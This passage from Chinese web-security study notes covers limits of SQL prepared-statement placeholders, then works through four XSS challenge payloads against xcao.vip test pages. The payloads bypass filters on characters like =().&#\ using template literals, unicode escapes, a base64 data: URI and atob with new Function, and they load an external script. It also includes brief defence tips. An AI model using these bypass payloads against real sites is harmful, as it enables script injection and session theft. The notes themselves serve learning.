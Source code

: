 1、不能让占位符 ? 代替一组值，如：

`SELECT * FROM blog WHERE userid IN ( ? );`

2、不能让占位符代替数据表名或列名，如：
`SELECT * FROM blog ORDER BY ?;`

3、不能让占位符 ? 代替任何其他SQL语法，如：

`SELECT EXTRACT( ? FROM datetime_column) AS variable_datetime_element FROM blog;`

## XSS

过滤了 =()


http://xcao.vip/test/xss1.php?data=%22%3E%3Cscript%3EsetTimeout`document.write\u0028"<script src\u003d'http://xcao.vip/xss/alert.js'><\/script>"\u0029`;%3C/script%3E%3C



过滤了 =().
```
http://xcao.vip/test/xss2.php?data=%22%3E%3Cscript%3EsetTimeout`document\u002ewrite\u0028%22%3Cscript%20src\u003d%27http://xcao\u002evip/xss/alert\u002ejs%27%3E%3C\/script%3E%22\u0029`;%3C/script%3E%3C
```
过滤了 ().&#\ 注意和第二题的不同，放开了=的过滤，新增了&#\的过滤
要求加载任意JS代码,成功加载http://xcao.vip/xss/alert.js 表示完成挑战
http://xcao.vip/test/xss3.php?data="><a href="data:text/html;base64,PHNjcmlwdD5hbGVydCg2NjY2KTwvc2NyaXB0Pg==">666</a><


过滤了 =().&#\

```
http://xcao.vip/test/xss4.php?data=%22%3E%3Cscript%3Enew%20Function`//${atob`dmFyIGEgPSBkb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTthLnNyYz0iaHR0cDovL3hjYW8udmlwL3hzcy9hbGVydC5qcyI7ZG9jdW1lbnQuYm9keS5hcHBlbmQoYSk7`}`%3C/script%3E
```
原理：
```
new Function `a${atob `YWxlcnQoNjY2KQ==`}`
```
### 防御
1、输入过滤，输出编码，黑白名单相结合
也就是对提交的所有内容进行过滤，对url中的参数进行过滤，过滤掉会导致脚本执行的相关内容；然后对动态输出到页面的内容进行html编码，使脚本无法在浏览器中执行。虽然对输入过滤可以被绕过，但是也还是会拦截很大一部分的XSS攻击。
2、httponly可以防止XSS盗cookie



## 命令执行


## CSRF
